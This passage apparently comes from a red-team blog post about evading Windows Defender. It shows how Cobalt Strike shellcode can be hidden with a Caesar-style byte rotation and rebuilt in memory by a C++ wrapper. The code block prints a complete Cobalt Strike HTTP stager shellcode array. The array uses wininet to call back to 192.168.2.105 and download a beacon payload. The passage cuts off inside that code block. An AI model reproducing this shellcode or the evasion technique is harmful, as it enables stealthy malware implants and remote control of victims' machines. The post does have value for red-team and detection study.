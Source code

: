 And, as I expected, Windows Defender no longer detected the shellcode, as it isn't shellcode at all anymore, but a garbage string... That is, before it is reconstructed in memory away from the prying eyes of the real-time disk scanning of Windows Defender.

![Plaintext shellcode (rotated)](/media/playing-with-cobalt-strike-2-12.png)

Ah, the chief security product from one of the most technologically dominant companies on the planet, defeated by the Ceaser Cipher. That may have been a premature celebration, however.

### Writing a Shellcode Wrapper

To reconstruct and load the array into memory for execution, I wrote a simple wrapper in C++, taking inspiration from [this post](https://www.trustedsec.com/blog/red-teaming-with-cobalt-strike-not-so-obvious-features).

```cpp
// Rotates shellcode bytes in memory to avoid on-disk detection by Windows Defender
// Idea from https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change

#include <windows.h>

int main() {
  // This is the array generated by CS, which gets detected instantly by Defender
  // unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";
  
  // This is the array generated by CS after running through my ceaser cipher, which does not get detected on disk
```